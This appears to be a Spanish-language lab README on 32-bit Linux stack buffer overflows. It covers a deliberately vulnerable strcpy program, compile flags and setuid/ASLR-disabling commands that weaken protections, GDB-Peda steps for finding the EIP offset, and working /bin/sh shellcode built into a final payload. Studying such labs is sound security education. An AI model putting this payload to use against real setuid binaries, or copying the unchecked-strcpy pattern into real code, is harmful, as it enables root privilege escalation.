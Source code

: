 **EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux](https://hacknotes.github.io/buffer%20overflow/buff32linux/)
## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```
## Compilacion
 ```bash
gcc -g -fno-stack-protector -z execstack -m32 buff.c -o buff
```
 ## Permisos
 ```bash
 chown root:root buff
 chmod +s buff
 echo 0 > /proc/sys/kernel/randomize_va_space
 ```
 ## GDB-Peda
 Vemos los registros de la memoria
 
 **Comando:** 
 ```bash
 i r
 ```
 Crea cadenas aleatorias
 
 **Comando:**
 ```bash
 pattern arg 100
 ```
 Ejecuta el binario
 
 **Comando:**
 ```bash
 r
 ```
 En base a la cadena creada anteriormente, busca el tamaño exacto de bites antes de sobreescribir el EIP.
 A ese numero es el que multiplicamos nuestras **"A"** y le sumamos 4 **"B"** que serían 4 bits.
 
 **Comando:**
 ```bash
 pattern search
 ```
 Ver los ultimos registros de la pila
 
 **Comando:**
 ```bash
 x/100wx $esp
 ```
 Nobs (no operate code), que nos sirven a la hora de ejecutar nuestra shell
 ```bash
 \x90
 ```
 Shell
 ```bash
 "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
 ```
 Payload final
 ```bash
 $(python -c 'print "A"*76 + "\xa0\xef\xff\xbf" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
